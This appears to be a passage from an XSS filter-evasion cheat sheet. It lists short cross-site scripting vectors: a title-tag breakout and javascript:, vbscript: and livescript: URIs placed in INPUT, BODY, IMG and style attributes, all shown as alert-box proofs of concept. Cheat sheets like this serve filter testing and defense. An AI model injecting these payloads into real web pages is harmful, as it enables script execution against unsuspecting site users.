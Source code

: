 ## End Title Tag
This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```js
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT Image
```js
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

## BODY Image
```js
<BODY BACKGROUND="javascript:alert('XSS')">
```

## IMG Dynsrc

```js
<IMG DYNSRC="javascript:alert('XSS')">
```

## IMG Lowsrc

```js
<IMG LOWSRC="javascript:alert('XSS')">
```

## List-style-image
Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:
```js
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE>
<UL><LI>XSS</br>
```

## VBscript in an Image

```js
<IMG SRC='vbscript:msgbox("XSS")'>
```

## Livescript (older versions of Netscape only)

```js
<IMG SRC="livescript:[code]">
```
